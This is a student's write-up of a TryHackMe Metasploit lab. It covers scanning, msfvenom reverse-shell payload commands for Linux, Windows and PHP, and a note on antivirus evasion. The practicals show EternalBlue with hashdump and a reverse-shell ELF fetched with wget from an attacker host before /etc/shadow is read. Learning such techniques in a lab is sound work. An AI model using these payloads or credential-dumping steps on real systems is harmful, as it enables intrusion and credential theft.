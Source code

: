 
### **TryHackMe: Cyber Security 101**

**Room:** `Metasploit: Exploitation`  
**Status:** Completed  
**Date:** 2025-08-07

----------

### **Goal**

Learn to use Metasploit for scanning, vulnerability assessment, and exploitation by leveraging various modules for port scanning, service enumeration, payload generation, and post-exploitation activities.

---------

### **Key Topics Covered**

**1. Metasploit Scanning Modules**

Metasploit offers multiple scanning modules to discover open ports and services on target systems:

-   **TCP ACK Firewall Scanner:** Detects firewall presence using TCP ACK packets.
    
-   **TCP SYN Port Scanner:** Performs SYN scans to identify open ports.
    
-   **TCP Port Scanner:** Basic TCP scanning.
    
-   **XMAS Port Scanner:** Uses TCP XMAS packets for port detection.
    

Common scan options include setting concurrency, port ranges, target hosts (RHOSTS), and threading to speed up scans.

Additionally, Nmap can be run directly inside the Metasploit console, automatically saving results to the Metasploit database.

----------

**2. Service Enumeration**

-   **UDP Service Identification:** The `scanner/discovery/udp_sweep` module helps identify UDP services such as DNS and NetBIOS.
    
-   **SMB Scans:** Specific modules like `smb_enumshares` and `smb_version` allow enumeration of SMB shares and identification of SMB versions and OS details.
    
-   NetBIOS scans reveal roles like domain controllers and shared resources on networks.
    

----------

**3. Metasploit Database Integration**

Metasploit integrates with PostgreSQL to store and manage scan results and vulnerabilities.

-   Starting PostgreSQL: `systemctl start postgresql`
    
-   Initializing database: `msfdb init` (run as non-root)
    
-   Workspaces isolate projects (`workspace -a <name>`)
    

Key commands:

-   `db_nmap`: Run Nmap and save results.
    
-   `hosts`: List hosts.
    
-   `services`: List discovered services.
    
-   `vulns`: List identified vulnerabilities.
    

----------

**4. Exploitation Workflow**

-   Search for exploits using `search <service>`.
    
-   Set payloads (e.g., Meterpreter, Reverse Shell, Bind Shell).
    
-   Configure options (`set payload`, `set LHOST`, etc.).
    
-   Launch exploits with `run` or `exploit`.
    

----------

**5. Payload Generation with Msfvenom**

Msfvenom is used to create payloads across platforms:

-   Linux ELF example:  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`
    
-   Windows EXE example:  
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`
    
-   PHP example:  
    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`
    

Encoders only encode payloads but do not guarantee antivirus evasion. More advanced obfuscation or shellcode injection techniques are preferable.

----------

**6. Handlers**

Handlers catch incoming connections from reverse shells or Meterpreter sessions initiated by payloads. Using the multi/handler module, attackers listen for incoming connections to "catch" shells from exploited targets.

----------

### **Practical 1: Exploiting a Critical Vulnerability**

**Questions:**

-   Exploit one of the critical vulnerabilities on the target VM.
    
-   What is the content of the `flag.txt` file?
    
-   What is the NTLM hash of the password of the user "pirate"?
    

**How I Did It:**

-   Used the EternalBlue exploit to gain access to the victim machine.
    
-   After creating a session, backgrounded the initial shell with `CTRL + Z`.
    
-   Upgraded the shell to Meterpreter using `sessions -u 1`.
    
-   Interacted with Meterpreter using `sessions -i 2`.

-   Cat'd out the contents of Flag.txt once found    
-   Executed `hashdump` to dump NTLM password hashes, including the one for user "pirate".
    
-   Accessed the `flag.txt` file to retrieve its contents.

### **Practical 2: Creating and Deploying a Meterpreter Payload on Linux**

**Questions:**

-   Create a Meterpreter payload in `.elf` format on the attacking machine.
    
-   Transfer it to the target machine.
    
-   Get a Meterpreter session on the target machine.
    
-   Use a post-exploitation module to dump hashes of other users on the system.
    
-   What is the other user's password hash?
    

**How I Did It:**

1.  Opened three terminal tabs on my attack machine.
    
2.  SSH’d into the victim machine with the provided credentials.
    
3.  Created a Meterpreter payload in ELF format using `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
4.  Made the payload executable with `chmod 777 rev_shell.elf`.
5.  Started a Python web server on the attacking machine using `python3 -m http.server 9000`
6. Downloaded the payload on the victim machine using `wget http://ATTACKING_MACHINE_IP:9000/rev_shell.elf`
7. Opened Metasploit in another terminal tab, set up the `multi/handler` exploit, configured `LHOST`, `LPORT` (matching payload), and set the payload to `linux/x86/meterpreter/reverse_tcp`.
8. Ran the exploit and waited for a connection.
9. Executed the payload on the victim machine to trigger the reverse shell.
10. Caught the reverse shell and established a Meterpreter session.
 11.  Attempted to run `post/linux/gather/hashdump` but it failed.
    12.  Manually navigated to `/etc/shadow` and viewed password hashes with `cat /etc/shadow`.

-----

### **What I Learned**

-   The differences and use cases for multiple Metasploit scanning modules.
    
-   How to enumerate services on targets, including UDP and SMB.
    
-   The process of initializing and using Metasploit’s database and workspaces.
    
-   Step-by-step exploitation flow: searching exploits, setting payloads, and launching attacks.
    
-   How to generate payloads for different platforms using msfvenom.
    
-   The importance of handlers in managing reverse shell connections.
    
-   Practical skills in upgrading shells and extracting credentials post-exploitation.
    
-   Techniques for payload delivery using simple HTTP servers.
    
-   Alternatives when post-exploitation modules fail, such as manual file inspection.






